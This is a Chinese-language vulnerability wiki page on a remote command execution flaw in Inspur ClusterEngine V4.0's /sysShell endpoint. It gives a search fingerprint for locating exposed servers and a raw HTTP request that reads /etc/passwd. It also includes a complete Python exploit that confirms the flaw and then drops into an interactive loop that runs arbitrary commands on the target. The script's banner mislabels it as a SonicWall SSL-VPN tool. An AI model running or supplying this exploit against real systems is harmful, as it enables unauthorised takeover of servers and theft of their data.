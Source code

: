 # 浪潮ClusterEngineV4.0 sysShell 任意命令执行漏洞

# 浪潮ClusterEngineV4.0 sysShell 任意命令执行漏洞

## 漏洞描述

浪潮ClusterEngineV4.0 存在远程命令执行，攻击者通过发送特殊的请求可以获取服务器权限

## 漏洞影响

```
浪潮ClusterEngineV4.0
```

## 网络测绘

```
title="TSCEV4.0"
```

## 漏洞复现



登录页面如下



![](/images/202202091851299.png)



发送请求包



```plain
POST /sysShell HTTP/1.1
Host: xxx.xxx.xxx.xxx
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cookie: lang=cn
Cache-Control: max-age=0
Content-Length: 42

op=doPlease&node=cu01&command=cat /etc/passwd
```



![](/images/202202091852805.png)



- ✅注意参数 node 中的 cu01 需要为shell集群中的存在主机



![](/images/202202091852553.png)



这里可以配合任意用户登录漏洞查看主机名



## 漏洞POC

如过出现 Name or service not

请通过上述的方法查看 shell集群主机的名称（脚本默认 cu01）



```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mVersion: SonicWall SSL-VPN                                       \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+  \033[36mCmd         >>> whoami                                            \033[0m')
    print('+------------------------------------------')

def POC_1(target_url, cmd):
    vuln_url = target_url + "/sysShell"
    headers = {
        "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
        "Cookie": "lang=cn"
    }
    data = "op=doPlease&node=cu01&command=cat /etc/passwd"
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data,verify=False, timeout=5)
        print("\033[32m[o] 正在请求 {}/sysShell \033[0m".format(target_url))
        if "root" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞 ,成功执行 cat /etc/passwd \033[0m".format(target_url))
            print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))
            while True:
                cmd = input("\033[35mCmd >>> \033[0m")
                if cmd == "exit":
                    sys.exit(0)
                else:
                    POC_2(target_url, cmd)
        else:
            print("\033[31m[x] 请求失败 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

def POC_2(target_url, cmd):
    vuln_url = target_url + "/sysShell"
    headers = {
        "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
        "Cookie": "lang=cn"
    }
    data = "op=doPlease&node=cu01&command={}".format(cmd)
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=5)
        print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    cmd = 'cat /etc/passwd'
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url, cmd)
```



![](/images/202202091852927.png)



## 


